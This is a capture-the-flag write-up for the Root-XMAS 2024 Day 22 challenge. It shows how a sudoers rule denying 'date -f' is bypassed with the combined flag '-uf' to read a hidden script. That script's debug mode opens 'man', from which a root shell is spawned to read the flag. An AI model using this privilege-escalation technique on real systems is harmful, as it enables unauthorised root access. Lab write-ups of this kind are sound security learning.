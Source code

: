 ```yaml
---
title: Root-XMAS 2024 Day 22 - The date is near
feed: hide
permalink: /RootXMAS_2024_22
date: 22-12-2024
summary: hear my arguments
---
```



### summary

bash shenanigans allows us to bypass a sudoers command filter.
### recon

We have access to a vm, so first thing we do is check if we can run some commands as a privileged user: 

```bash
sudo -l

User sshuser may run the following commands on the-date-is-near:
    (ALL) NOPASSWD: /bin/date *, !/bin/date *-f*, !/bin/date *--file*
    (ALL) NOPASSWD: /usr/bin/dev.sh
```

nice, we can run two commands! alas `dev.sh` does not appear to do anything when we run it, and we can't read it's content...
Let's focus on the binary hinted by the challenge, `date`. the [gtfobins date page](https://gtfobins.github.io/gtfobins/date/) shows us that we can get an arbitrary file read with the `-f/--file` argument.

Alas, these two options are specifically prevented by the sudoers configuration... 

### solution

Sometimes when you don't know about a subject, bruteforce can lead you on the right track:
I wanted to try tricking the bash command parsing by putting special characters in the middle of the `-f` option , so I did some bruteforce, trying all ascii characters:  

```bash
for i in {1..128}; do sudo /bin/date -$(printf "\\$(printf %03o "$i")")f /usr/bin/dev.sh; echo $i; done
```

And strangely, it worked with some characters, like 'u'.
Indeed in bash, you can call multiple shorthand arguments at the same time with a single '-' just like this: 

```bash
sudo /bin/date -uf /usr/bin/dev.sh
	/bin/date: invalid date '#!/bin/bash'
	Tue Dec 24 00:00:00 UTC 2024
	/bin/date: invalid date '# Check if the --debugmyscript argument is present'
	/bin/date: invalid date 'if [[ "$1" != "--debugmyscript" ]]; then'
	/bin/date: invalid date '    exit 0  # Exit silently if the --debugmyscript argument is not provided'
	...
```

Yay! now we know that `dev.sh`  took a secret `debugmyscript` argument to run!

```bash
sudo /usr/bin/dev.sh --debugmyscript
	Usage: /usr/bin/dev.sh [options]
	
	Options:
	  -l            List all running processes.
	  -d            Show available disk space.
	  -m            Show the manual for the printf command.
	  -h            Show this help message.

```

Now as the [gtfobins 'man' command page](https://gtfobins.github.io/gtfobins/man/) shows, we can start a root shell from then `man` command executed.

```bash
sudo /usr/bin/dev.sh --debugmyscript -m
!!/bin/bash

	ls /root
		flag-1a0a6...1.txt
	cat /root/*.txt
		RM{S4NTA_IS_N0T_4DMIN_SYS}
```


| Previous day | [[Day 18 - Santa's sweet words]] |
| ------------ | -------------------------------- |
| Next day     | [[Day 24 - Root-Xmas Quiz]]      |